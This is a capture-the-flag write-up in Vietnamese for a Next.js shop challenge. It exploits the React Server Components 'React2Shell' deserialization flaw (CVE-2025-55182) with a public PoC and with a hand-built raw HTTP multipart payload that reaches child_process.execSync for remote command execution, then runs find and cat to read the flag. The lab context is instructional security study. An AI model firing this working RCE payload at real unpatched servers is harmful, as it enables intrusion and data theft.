






# Đề bài
SHOP NOW, PAY later, DASH home, cry in the BOX.

Mirror 1: http://18.215.143.250:3000
Mirror 2: http://18.145.136.91:3000

:::spoiler View Hint
When did you say you made this website?
:::
# Solution 
Truy cập challenge ta thấy giao diện sau


Để ý hint của author nhắc đến ngày làm website -> Có thể dính lỗi CVE tại thời điểm đó
Kiểm tra ngày build web và framework ở góc dưới cùng bên phải


-> Dính lỗ hổng ==React2Shell==
## Tại sao lại có 2 CVE
### Cùng một nguyên nhân gốc rễ
1. Cả hai CVE đều xuất phát từ lỗi giải mã không an toàn (insecure deserialization) trong giao thức `Flight` của React Server Components (RSC).
2. `Next.js` sử dụng trực tiếp cơ chế `RSC` của `React`, nên khi `React` có lỗi, `Next.js` cũng bị ảnh hưởng y hệt. Do đó, một đoạn mã PoC tấn công vào `React` sẽ hoạt động chính xác tương tự trên `Next.js` nếu `Next.js` chưa được vá.
### CVE-2025-66478 chỉ là "bản sao" để đánh dấu phạm vi
Ban đầu, nhóm bảo mật của `Next.js` muốn tách riêng CVE để người dùng dễ nhận biết framework của họ bị ảnh hưởng. Nhưng sau đó, các nhà nghiên cứu và NVD xác nhận rằng việc vá lỗi ở tầng `React` (CVE-2025-55182) sẽ giải quyết triệt để vấn đề cho cả `Next.js`.
## Exploit
### Exploit bằng Poc công khai trên mạng
Ta tìm [Poc cho CVE-2025-55182](https://github.com/msanft/CVE-2025-55182/blob/main/poc.py). Trong `poc.py` có đoạn code như sau 
```python
BASE_URL = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000"
EXECUTABLE = sys.argv[2] if len(sys.argv) > 2 else "id"
```
-> Chỉ cần chạy `python3 poc.py http://18.145.136.91:3000 '<command>'` sau khi tải `poc.py` về máy 
Trước tiên và phải tìm xem thư mục chứa flag nằm ở đâu bằng lệnh bash sau
```bash
python3 poc.py http://18.145.136.91:3000 'find / -iname \"*flag*\" 2>/dev/null | base64 -w0',{'timeout':5000}'
```
:::info
`-w0` trong lệnh `base64` (thường dùng trên Linux/Unix) có chức năng vô hiệu hóa việc ngắt dòng (line wrapping) trong kết quả mã hóa. 

- Mặc định: Lệnh `base64` sẽ tự động chèn ký tự xuống dòng (\n) sau mỗi 76 ký tự đầu ra.  Điều này giúp dễ đọc nhưng làm thay đổi giá trị chuỗi nếu không được xử lý đúng.
- Khi dùng `-w0`: Kết quả mã hóa sẽ được trả về dưới dạng một chuỗi liên tục duy nhất, không chứa ký tự xuống dòng nào. 
:::

Output trả ra:
```
L3Vzci9sb2NhbC9saWIvbm9kZV9tb2R1bGVzL25wbS9ub2RlX21vZHVsZXMvdGFyL2Rpc3QvY29tbW9uanMvZ2V0LXdyaXRlLWZsYWcuanMKL3Vzci9sb2NhbC9saWIvbm9kZV9tb2R1bGVzL25wbS9ub2RlX21vZHVsZXMvdGFyL2Rpc3QvZXNtL2dldC13cml0ZS1mbGFnLmpzCi91c3IvbG9jYWwvbGliL25vZGVfbW9kdWxlcy9ucG0vbm9kZV9tb2R1bGVzL0BucG1jbGkvYXJib3Jpc3QvbGliL3Jlc2V0LWRlcC1mbGFncy5qcwovdXNyL2xvY2FsL2xpYi9ub2RlX21vZHVsZXMvbnBtL25vZGVfbW9kdWxlcy9AbnBtY2xpL2FyYm9yaXN0L2xpYi9jYWxjLWRlcC1mbGFncy5qcwovdXNyL2xvY2FsL2luY2x1ZGUvbm9kZS9jcHBnYy9pbnRlcm5hbC9hdG9taWMtZW50cnktZmxhZy5oCi9zeXMvZGV2aWNlcy9wbnAwLzAwOjA0LzAwOjA0OjAvMDA6MDQ6MC4wL3R0eS90dHlTMC9mbGFncwovc3lzL2RldmljZXMvcGxhdGZvcm0vc2VyaWFsODI1MC9zZXJpYWw4MjUwOjAvc2VyaWFsODI1MDowLjMvdHR5L3R0eVMzL2ZsYWdzCi9zeXMvZGV2aWNlcy9wbGF0Zm9ybS9zZXJpYWw4MjUwL3NlcmlhbDgyNTA6MC9zZXJpYWw4MjUwOjAuMS90dHkvdHR5UzEvZmxhZ3MKL3N5cy9kZXZpY2VzL3BsYXRmb3JtL3NlcmlhbDgyNTAvc2VyaWFsODI1MDowL3NlcmlhbDgyNTA6MC4yL3R0eS90dHlTMi9mbGFncwovc3lzL2RldmljZXMvdmlydHVhbC9uZXQvbG8vZmxhZ3MKL3N5cy9kZXZpY2VzL3ZpcnR1YWwvbmV0L2V0aDAvZmxhZ3MKL3Byb2Mvc3lzL2tlcm5lbC9hY3BpX3ZpZGVvX2ZsYWdzCi9wcm9jL3N5cy9uZXQvaXB2NC9maWJfbm90aWZ5X29uX2ZsYWdfY2hhbmdlCi9wcm9jL3N5cy9uZXQvaXB2Ni9jb25mL2FsbC9yYV9ob25vcl9waW9fcGZsYWcKL3Byb2Mvc3lzL25ldC9pcHY2L2NvbmYvZGVmYXVsdC9yYV9ob25vcl9waW9fcGZsYWcKL3Byb2Mvc3lzL25ldC9pcHY2L2NvbmYvZXRoMC9yYV9ob25vcl9waW9fcGZsYWcKL3Byb2Mvc3lzL25ldC9pcHY2L2NvbmYvbG8vcmFfaG9ub3JfcGlvX3BmbGFnCi9wcm9jL3N5cy9uZXQvaXB2Ni9maWJfbm90aWZ5X29uX2ZsYWdfY2hhbmdlCi9wcm9jL2twYWdlZmxhZ3MKL2ZsYWcudHh0Cg==
```

Ta chỉ cần decode base64 thì sẽ có được các đường dẫn chứa string `flag` ở tên

Ta đã tìm thấy folder chứa flag, giờ chỉ cần `cat /flag.txt` là ta sẽ lấy được flag.
```bash
python3 poc.py http://18.145.136.91:3000 'cat /flag.txt'
```
-> Flag:
`rstcon{pr0t0typ3_p0llut10n_m3ets_r34ct_fl1ght}`

### Tái tạo Poc bằng Burp Suite 
Payload mẫu:
```http
POST / HTTP/1.1
Host: 18.145.136.91:3000
Next-Action: x
Content-Type: multipart/form-data; boundary=----b
Connection: close
Content-Length: 479

------b
Content-Disposition: form-data;name="0"

{
    "then":"$1:__proto__:then",
    "status":"resolved_model",
    "reason":-1,
    "value":"{\"then\": \"$B0\"}",
    "_response":{
        "_prefix":
        "var res = process.mainModule.require('child_process').execSync('<command>').toString().trim(); throw Object.assign(new Error(
        'NEXT_REDIRECT'), {digest:`${res}`});",
        "_formData":{
            "get":"$1:constructor:constructor"
        }
    }
}
------b
Content-Disposition: form-data;name="1"

"$@0"
------b--
```
 
1. Thay command với lệnh bash dưới để lấy base64 encode của đường dẫn tới folder chứa flag
```bash
find / -iname \"*flag*\" 2>/dev/null | base64 -w0',{'timeout':5000}
```
2. Thay command với lệnh bash dưới để lấy flag
```bash
cat /flag.txt
```


-> Flag:
`rstcon{pr0t0typ3_p0llut10n_m3ets_r34ct_fl1ght}`
